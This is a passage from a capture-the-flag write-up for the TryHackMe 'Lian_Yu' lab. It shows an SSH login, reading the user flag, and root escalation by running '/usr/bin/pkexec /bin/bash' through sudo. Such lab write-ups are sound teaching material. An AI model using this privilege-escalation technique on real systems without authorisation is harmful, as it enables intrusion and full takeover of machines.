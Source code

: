 ```
kali@kali:~/Desktop/thm/lian_yu$ ssh slade@10.10.107.8
slade@10.10.107.8's password: 
                              Way To SSH...
                          Loading.........Done.. 
                   Connecting To Lian_Yu  Happy Hacking

██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗██████╗ 
██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗   █████╔╝
██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  ██╔═══╝ 
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝


        ██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
        ██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
        ██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
        ██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
        ███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
        ╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

slade@LianYu:~$ cat ~/user.txt
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_******}
                        --Felicity Smoak

slade@LianYu:~$
```

## Priv Esc and root.txt

Let's see if we can run anything as root...

```
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Sorry, try again.
[sudo] password for slade: 
Sorry, try again.
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

So we can run ``/usr/bin/pkexec``. 

I looked it up on [GTFOBins](https://gtfobins.github.io/gtfobins/pkexec/)

```
slade@LianYu:~$ sudo /usr/bin/pkexec /bin/bash
root@LianYu:~# cat ~/root.txt
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_****************}
                                                                              --DEATHSTROKE

```